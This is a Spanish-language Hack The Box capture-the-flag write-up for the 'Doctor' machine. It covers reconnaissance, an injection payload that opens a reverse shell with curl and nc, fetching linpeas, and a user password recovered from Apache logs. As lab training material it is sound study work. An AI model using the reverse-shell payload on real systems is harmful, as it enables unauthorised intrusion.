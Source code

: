```yaml
---
title: Doctor HTB
author: OxDeed
date: 2020-11-10 15:29:00 -0300
categories: [Blogging, Tutorial]
tags: [splunk,ssti]
math: true
image: /assets/img/sample/doctor.png
---
```


## Resumen

Empezamos con Doctor analizando el puerto `80 http` donde nos encontraremos con un posible nombre de dominio `doctors.htb`. 

Una vez agregado al file `/etc/hosts/` La pagina nos mostrara un sistema de posts-mensajeria el cual es vulnerable a ataques de tipo server-side-template-injection `(SSTI)`. Con esto seremos capaces de obtener la primera reverse shell. 

Aún debemos escalar de usuario, y solo bastara con ejecutar un `linepeash.sh` y encontraremos el pass de shaun en los logs de apache.

Como ultimo paso 
nos quedaria la escalacion de privilegios hacia root, donde nos aprovecharemos de la vulnerabilidad del `splunkforwarder` que esta corriendo en el `puerto 8089` con el exploit [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2) para finalmente obtener el `root.txt`. 

## Pwned
<link rel="stylesheet" type="text/css" href="/assets/css/asciinema-player.css"/>
<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>
<script type="text/javascript" src="/assets/js/asciinema-player.js"></script>

---

## Reconocimiento
```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-09 18:06 EST
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.23s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.53 seconds
  ```
---
Como podemos ver hay un correo con un posible nombre de dominio `doctors.htb` 

![Desktop View](https://i.ibb.co/PgbzhFX/1.png)
## /etc/hosts
Lo agregamos un nuestro archivo `hosts` para poder acceder.
```console
nano /etc/hosts
  ```
```console
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.209    doctors.htb
  ```
## doctors.htb

Una vez en doctors.htb nos encontramos con un sistema de posts/mensajeria donde tendremos que `registrarnos` y `logearnos`.
![Desktop View](https://i.ibb.co/qrK75gr/4.png)
![Desktop View](https://i.ibb.co/JrMHpL0/6.png)
Creamos un nuevo mensaje `New Message`
![Desktop View](https://i.ibb.co/d4VnQ1c/7.png)

---

## SSTI

La web esta usando `flask` la cual puede ser vulnerable a server-side-template-injection [**SSTI Payloads**](https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34)

![Desktop View](https://i.ibb.co/nr8nTH6/12.png)
Capturamos el request con Burp Suite e Inyectamos con el siguiente payload: `title=curl+http%3A%2F%2Fip%2F%24%28nc.traditional%24IFS%252710.10.15.31%2527%24IFS%25274949%2527%24IFS-e%24IFS%2Fbin%2Fsh%29&content=curl http://ip/$(nc.traditional$IFS%2710.10.14.230%27$IFS%274949%27$IFS-e$IFS/bin/sh)dbody&submit=Post`

Una vez dentro, podemos usar nuestra llave pública para logearnos con `ssh`.
```console
web@doctor:~/.ssh$ ls
ls
authorized_keys
``` 
<asciinema-player src="/htb/doctor/1.cast" cols="107" rows="24"></asciinema-player>
---
## Privesc Shaun

Subimos el linpeash para enumerar
```console
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [09/Nov/2020 18:48:11] "GET /linpeash.sh HTTP/1.1" 200 -
``` 
---
```console
web@doctor:~$ wget 10.10.15.31/linpeash.sh

--2020-11-10 00:48:10--  http://10.10.15.31/linpeash.sh
Connecting to 10.10.15.31:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294784 (288K) [text/x-sh]
Saving to: ‘linpeash.sh’

linpeash.sh 100%[==========================================================================================>] 287,88K   208KB/s    in 1,4s    

2020-11-10 00:48:12 (208 KB/s) - ‘linpeash.sh’ saved [294784/294784]
``` 

```console
web@doctor:~$ chmod +x linpeash.sh 
```

En los logs del apache nos encontramos con el password del usuario shaun. 
```console
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
![Desktop View](https://i.ibb.co/5sQrcvC/11.png)









